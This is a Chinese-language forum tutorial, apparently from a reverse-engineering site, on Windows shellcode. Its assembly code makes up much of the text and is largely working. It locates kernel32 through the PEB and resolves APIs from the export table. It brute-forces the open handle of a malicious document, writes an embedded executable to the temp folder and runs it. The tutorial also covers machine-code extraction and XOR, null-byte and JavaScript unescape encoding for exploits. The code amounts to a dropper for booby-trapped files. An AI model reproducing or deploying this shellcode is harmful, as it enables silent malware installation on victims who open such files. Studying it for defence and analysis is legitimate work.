


# windows 下的 shellcode 剖析浅谈

> 原文：[`www.pediy.com/kssd/pediy10/99007.html`](https://www.pediy.com/kssd/pediy10/99007.html)

  今天是中秋节，正好我的文章在今天基本完成，作为中秋礼物送给大家，由于本人水平有限希望大家多多批评指正！  
学习了好些日子了，思路总是乱乱的，这几天决定养成个好习惯，把自己学习的一些东西做一些总结写篇文章，以便归纳和总结，并从中能够更深刻更系统化的理解其技术原理。  今天，就从 shellcode 来下手吧！  
  说到 shellcode 可能都有些迷茫，不知它是什么东西，可能觉得也很神秘，对于它的专业解释也很少有人提及，今天我们就从以下几个方面来对 windows 下的 shellcode 做一个全剖析:  
1.  shellcode 的发展历史以及定义  
2.  现今常见的 windows 下的 shellcode 种类  
3.  动手编写一个简单的 shellcode  
4.  shellcode 的存在形式以及编码方式  
5.  exploit 中的 shellcode  
好了，下面我们就逐一来弄清楚这些问题吧！  
1.  shellcode 的发展历史以及定义：  
对于 shellcode 的发展历史，failewest 兄的《0day 安全：软件漏洞分析技术》一书中讲的很明白，这里就引用一小段：  
“1996 年，Aleph One 在 Underground 发表了著名论文《SMASHING THE STACK FOR FUN AND PROFIT》，其中详细描述了 Linux 系统中栈的结构和如何利用基于栈的缓冲区溢出。在这篇具有划时代意义的论文中，Aleph One 演示了如何向进程中植入一段用于获得 shell 的代码，并在论文中称这段被植入进程的代码为’shellcode’。   
  
后来人们干脆统一用 shellcode 这个专用术语来通称缓冲区溢出攻击中植入进程的代码。这段代码可以是出于恶作剧目的的弹出一个消息框，也可以是出于攻击目的的删改重要文件、窃取数据、上传木马病毒并运行，甚至是出于破坏目的的格式化硬盘等等。”  
  
其实，现在 shellcode 的应用也很广泛，甚至有些远程控制软件也把自己能做成一个 shellcode 形式，我们只要理解这个是溢出之后干坏事的一段代码。（文章中提及的 shellcode 也全是跟溢出相关的 shellcode）  
2.  现今常见的 windows 下的 shellcode 种类  
这里，我就直接从功能上来分类：  
（1）  反弹端口类(shell)  
这是一个真正的原始意义上的 shellcode，不得不讲  
（2）  下载并执行类（download&exec）  
这个是最简单的一类 shellcode，在网马中的应用也最广泛  
（3）  生成并运行可执行文件类（bindfile）  
为什么会有这么一类 shellcode 呢？试想想，制造漏洞的坏人如果把前面两类 shellcode 绑定到一个应用软件 exploit 里面就会出现一些意外情况：  
a)  假如你的反弹行为被防火墙给拦截了怎么办？  
b)  假如对方的防范意识比较高打开 doc、pdf 之类的文件的时候总是把网断了再打开怎么办？  
哎~，早有坏人替我们想到了这些问题，他们把自己的 exe 也一并绑定到 exploit 中，shellcode 的功能就是把 exe 释放出来，然后运行。（这个方法有点邪恶吧）  
3.  动手编写一个简单的 shellcode  
好了，前面说了这么多废话，说一会也该练练了。  
这里为了方便讲解，我就选择用 win32 汇编来写吧。（当然我对 c 更熟悉些）前面两类 shellcode 的例子很多，这里我就着重介绍下 bindfile 类 shellcode 的编写。  
首先，让我们来理理思路，看图：  
  
这个图是按 shellcode 的执行流程来画的，下面逐一来讲解。  
其实 shellcode 就是一段自主的而且功能完善的代码，不过里面不能直接调用 API 函数，因为它不是运行在编译器环境下，没有 include 来声明函数，更没有应用程序的函数表，所以，shellcode 得自己想办法找到自己调用的 API 函数的地址，然后强行调用了。  
（1）  查找 kernel32.dll 基址：  
shellcode 里面用的 API 函数一般都是与用户界面无关的，因为它要干坏事，一般都是偷偷的，所以它一般用的都是 kernel32.dll 里面的函数。所以，我们必须先找到 kernel32 的基址才能进一步找到各 API 的地址具体地址。  
关于获取 api 基址的方法很多，我这里就讲最简单的一种（这里面集合了众多高手的实践经验）：  
利用 PEB 查找 kernel32 基址：  

代码:

```
assume fs:nothing
  mov   eax,fs:\[30h\]
  test  eax,eax
  js  os\_9x
os\_nt:  
  mov  eax,\[eax+0ch\]
  mov  esi,\[eax+1ch\]
  lodsd  
  mov   eax,\[eax+8\]
  jmp  k\_finished
os\_9x:
  mov   eax,\[eax+34h\]
  mov  eax,\[eax+7ch\]
  mov  eax,\[eax+3ch\]
k\_finished:
  sub  esp,200
  mov  edi,esp
  mov  \[edi+8\],eax  ;获取 kernel32 地址

```

可能上面这段代码大家看的不是很明白，现在画个示意图来看看：  
  
至于为什么这里放的就是 kernel32 的基址呢，这需要感谢那些经验丰富的大牛了，ms 本来就是这么设计的，但是要找到这么通用的方法可不简单。同时，代码里面也对 9x 系统进行了判断，相信大家可以通过上面的图看明白是什么意思。  
其实，还由几种思路非常清晰的动态查找方法，大家可以自己去找找相关的文章看看。我喜欢偷懒~  
（2）  查找 API 函数地址  
通过上面找到了 kernel32 的基址，但是我们如何得到具体的 api 函数地址呢？这里就需要涉及到 pe 文件格式了。这里我只讲解如何从 dll 文件中找出其函数引出表中的函数地址的方法：（班门弄斧了，见笑~）  
a.在 kernel32 基址+0x3c 处获取 e\_lfanewc 地址，即可以得到 PE 头  
b.在 PE 头偏移的 0x78 处得到函数引出表地址  
c.在引出表的 0x1c 偏移处获取 AddressOfFunctions、AddressOfNames、AddressOfNameOrdinalse  
d. AddressOfFunctions 和 AddressOfNames 是函数地址和函数名通过 AddressOfNameOrdinalse 一一对应的两个数组  
e.是这样计算的：  
搜索 AddressOfNames，确定“GetProcAddress”所对应的 index；  
  index = AddressOfNameOrdinalse \[ index \];  
函数地址 = AddressOfFunctions \[ index \];  
代码：  
代码:

```
FindApi:      ;获取 API 函数地址子过程
  push  ebp
  push  edi
  mov  ebp,edi
  mov  ebx,esp
  add  ebx,8
  xor  edx,edx
  mov  eax,\[ebp+8\]
  add  eax,3ch    ;指向 PE 头部偏移值 e\_lfanew
  mov  eax,\[eax\]  ;取得 e\_lfanew 值
  add  eax,\[ebp+8\]  ;指向 PE header
  cmp  dword ptr\[eax\],4550h  ;判断是否为'PE'
  jne  NotFound  ;kernel32 基址错误
  mov  \[ebp+0ch\],eax  ;保存 PE 文件头
  mov  eax,\[eax+78h\]
  add  eax,\[ebp+8\]
  mov  \[ebp+0ch\],eax  ;指向 IMAGE\_EXPORT\_DIRECTORY
  mov  eax,\[eax+20h\]
  add  eax,\[ebp+8\]
  mov  \[ebp+4\],eax  ;保存函数名指针数组的指针值
  mov  ecx,\[ebp+0ch\]
  mov  ecx,\[ecx+14h\]
FindLoop:
  
  push  ecx
  mov  eax,\[eax\]
  add  eax,\[ebp+8\]
  mov  esi,ebx
  add  esi,8
  mov  edi,eax
  mov  ecx,\[ebx+4\]
  cld
  repe  cmpsb
  jne  FindNext
  add   esp,4
  mov  eax,\[ebp+0ch\]
  mov  eax,\[eax+1ch\]
  add   eax,\[ebp+8\]
  shl  edx,2
  add  eax,edx
  mov  eax,\[eax\]
  add  eax,\[ebp+8\]
  jmp  Found
FindNext:
  inc  edx
  add  dword ptr\[ebp+4\],4
  mov  eax,\[ebp+4\]
  pop  ecx
  loop  FindLoop
NotFound:
  xor   eax,eax
Found:
  pop  edi
  pop  ebp
  ret  

```

（3）  定位 exe 文件数据  
API 地址也找到了，现在剩下的就是实现功能，首先，想到的就是找到 exe 的数据在哪，然后我们把它 ReadFile 提出来然后 CreateFile 再 WriteFile 不就完了。但是，我们又面临以下两个问题：  
如何找到 exe 数据呢？  
这个问题很好回答，exe 的数据就在我们的 exploit 文件中，接下来就有些难度了；  
如何定位 exploit 文件呢？  
我们可以考虑两种做法：  
一是知道 exploit 文件的路径，那样就可以用 CreateFile 来打开它，从而获取数据，不过这种做法还面临一个困难，如何得到 exploit 文件的路径，当然，办法还是有的；  
第二种方法就是找到 exploit 的文件句柄，这里先讨论一个逻辑关系，就是我们为什么可以利用这种方法，原因很简单，你的 exploit 其实已经打开了，只是你自己不知道它的句柄而已，这样，只要我们能群举出句柄，那么就可以直接通过句柄来读 exploit 里面的 exe 文件数据了。  
上面两种方法的优缺点显而易见，第二种方法通用性更强，第一种方法虽然可以用更加巧妙的方式来实现，但是难度相对较高，而且不容易理解，所以我就以第二种方法为例来介绍,即群举句柄法:  
代码:

```
  
  mov  dword ptr\[edi+68h\],1000h  ;设置 exe 文件长度 exelen
  xor  esi,esi
sHandle:
  inc  esi
  push  0
  push  esi
  call  dword ptr\[edi+10h\]
  cmp  eax,1536    ;exploit 文件大小
  jne  sHandle
  mov  \[edi+3ch\],eax
  mov  \[edi+40h\],esi    ;根据文件大小群举有效句柄

```

这里还要办的一件事就是，在 ReadFile 和 Writefile 的时候需要申请一个空间来存放 exe 文件数据，这就由 GlobalAlloc 和 GlobalFree 来负责解决这个问题了，这里就不需要详细解释了。  
代码:

```
push  \[edi+3ch\]
  push  40
  call  dword ptr\[edi+20h\]
  mov  \[edi+60h\],eax        ;申请内存空间存储读取出来的 exe 文件数据
  
  mov   esi,esp
  add  esi,100h
  push  esi
  push  50h
  call  dword ptr\[edi+18h\]
  mov  ebx,esi
  mov  \[edi+44h\],esi
  add  ebx,eax  
  add  ebx,8
  mov  eax,esp
  mov  esp,ebx
  push  'e'
  push  'xe.a'
  sub   esp,8
  mov  esp,eax        ;获取临时文件夹路径，并追加 exe 文件名

  push  0
  push  2
  push  2
  push  0
  push  3
  push  40000000h
  mov  ebx,\[edi+44h\]
  push  ebx
  call  dword ptr\[edi+1ch\]    ;根据 exe 文件路径创建 exe 文件
  mov  \[edi+48h\],eax
  
  
  push  2
  push  0
  push  200
  push  dword ptr\[edi+40h\]
  call  dword ptr\[edi+14h\]    ;设置文件指针
  
  push  0
  lea  ebx,dword ptr\[edi+64h\]
  push  ebx
  push  dword ptr\[edi+68h\]
  push  dword ptr\[edi+60h\]
  push  dword ptr\[edi+40h\]
  call  dword ptr\[edi+28h\]    ;读取指定长度
  
  push  0
  lea  ebx,dword ptr\[edi+64h\]
  push  ebx
  push  dword ptr\[edi+68h\]
  push  dword ptr\[edi+60h\]
  push  dword ptr\[edi+48h\]
  call  dword ptr\[edi+2ch\]    ;将读取的 exe 文件数据写入 exe 文件中

```

（4）  生成并运行 exe  
这个就比较简单了，直接看代码：  
代码:

```
mov  ebx,\[edi+40h\]
  call  dword ptr\[edi+30h\]    ;大功告成 CloseHandle

  mov  ebx,\[edi+48h\]
  push  ebx
  call  dword ptr\[edi+34h\]  ;最终目标,运行 exe 文件

```

（5）  打扫战场，闪人  
当然首先是要把前面申请的内存空间释放掉,然后用个 exitprocess 来结束这一切吧，一是留点善心，二是省事：  
代码:

```
push  dword ptr\[edi+60h\]
call  dword ptr\[edi+24h\]    ;清理战场 GlobalFree
push  0
call  dword ptr\[edi+38h\]    ;exitprocess 退出进程,以免进程卡死或报错

```

4.  shellcode 的自动提取  
上面写的 shellcode 是用汇编写的，我们不至于把它直接拷到 exploit 里面去执行吧，cpu 认的是机器码，所以你控制了 eip 之后当然得把它指到 cpu 能识别的指令上去吧。所以，我们得把汇编转换成机器码，网上公开的方法很多，我这里介绍一种比较简便的方法吧：既然你是用汇编写的那么你的代码在.code 段的内存中应该就直接是机器码了，只需要在开始和结尾打个标记，然后把它直接从那里导出来就完了。  
看代码：  
代码:

```
.386
    .model flat, stdcall
    option casemap:none

include    user32.inc
include    kernel32.inc
includelib  kernel32.lib
includelib  user32.lib

    .data

sc\_out    db  'sc\_out.txt',0
exelen    dd  1000h

    .data?

sc\_start  dd  ?
sc\_end    dd  ?
sc\_len    dd  ?
out\_handle  dd  ?
out\_buff  dd  ?
dwsize    dd  ?

    .code

start:

  jmp scEnd;
  
scStart:
        ……
scEnd:
  mov  sc\_start,scStart
  mov  sc\_end,  scEnd
  mov  ebx,sc\_end
  sub  ebx,sc\_start
  mov  sc\_len,ebx

  invoke  CreateFile,offset sc\_out,40000000h,3,0,2,2,0
  mov  out\_handle,eax
  
  lea  ebx,scStart
  mov  out\_buff,ebx
  invoke  WriteFile,out\_handle,out\_buff,sc\_len,addr dwsize,0
  
  invoke  CloseHandle,out\_handle
    end start

```

5.  exploit 中的 shellcode  
在 exploit 中，有时候由于隐蔽性、str 的 0x00 断开限制、JavaScript 等脚本中不同的字符串格式要求下，可能 shellcode 会需要以不同的形式来放到 exploit 中。下面逐一来说明：  
（1）  隐蔽性  
这个一般就是对 shellcode 进行简单的编码，比如异或等方式  
（2）  Str 的 0x00 断开限制  
有时候 shellcode 是作为一个问题函数的参数被传入的，这个时候就必须考虑传入 shellcode 的完整性了，因为在字符串中往往 0x00 会将字符串断开，所以必须向办法在 shellcode 中避免 0x00 的出现  
（3）  JavaScript 中的 unescape  
在 JavaScript 中所有的变量基本都是以字符串的形式或者 unescape 的形式存在的，没有 byte 这种概念，因此对于一些诸如 0x00，0x01 等等这些非字符串是无法表示的，最好还是用它的 unescape 来存在，那么就必须把的 shellcode 转换成它的格式来放在 exploit 中了，这种多见于 JavaScript 溢出利用中。  
  
不知不觉写了这么多，由于本人的知识水平和表达能力有限，所以其中不免有错误之处，希望大家能够批评指正！ 

引用: *最初由 **仙果**发布*  能否指明，文章中 call \[ebp+4\] 之类的指令对应的 API 函数，及其在内存中函数地址的布局情况？  
谢谢 

其实 只要动手写一下基本上就能明白，既然问了 我就贴一个调用例子吧，后面的自己可以根据功能把它补全了：  
代码:

```
  push  'sse'
  push  'corP'
  push  'tixE'
  push   11
  call  FindApi
  mov  \[edi+38h\],eax    ;获取所需 API 函数地址

```